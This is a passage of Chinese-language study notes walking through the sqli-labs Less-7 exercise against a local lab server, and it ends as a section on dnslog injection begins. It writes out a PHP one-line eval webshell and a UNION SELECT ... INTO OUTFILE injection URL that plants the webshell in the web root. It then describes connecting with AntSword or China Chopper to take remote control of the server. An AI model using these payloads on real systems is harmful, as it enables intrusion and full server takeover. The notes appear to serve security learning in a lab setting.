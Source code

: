 页面会有报错信息，但是报错信息里也没有回显位

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220801164610340.png" alt="image-20220801164610340" style="zoom:50%;" />

**6.尝试布尔盲注**

可以使用，但是太麻烦太慢，可以尝试文件上传

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220801164925360.png" alt="image-20220801164925360" style="zoom:50%;" />

**7.尝试文件上传**

```php
#文件上传指令,以下代码为一句话木马
<?php @eval($_POST['password']);?>
#password为预留密码
```

```sql
http://192.168.1.18/sql/Less-7/?id=-1')) union select 1,2,"<?php @eval($_POST['zxf123456']);?>" into outfile "D:\\phpstudy_pro\\WWW\\zxf.php" -- 
#虽然结果还是报错但是不影响文件的上传
```

上传前和上传后

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120031785.png" alt="image-20220806120031785" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120107359.png" alt="image-20220806120107359" style="zoom:50%;" />

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120141402.png" alt="image-20220806120141402" style="zoom:50%;" />

**8.可以使用蚁剑或者中国菜刀直接进行远程登录控制**

- 空白处右键点击添加数据

- URL地址一栏填入靶机服务器IP地址和我们刚刚上传的文件的文件名构成的地址

  `http://192.168.1.18/zxf.php`

- 连接密码一栏填入我们在上传文件里设置的密码：`zxf123456`

  <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120633772.png" alt="image-20220806120633772" style="zoom:50%;" />

- 点击测试连接，即可获得webshell。至此，该服务器已经被远程控制了。

  <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120821375.png" alt="image-20220806120821375" style="zoom:50%;" />

  <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806120846863.png" alt="image-20220806120846863" style="zoom:50%;" />

## 3.7 dnslog注入

### 1.简介

**dnslog注入**：也算是盲注中的一种，但是效率更高。

#### 关键函数
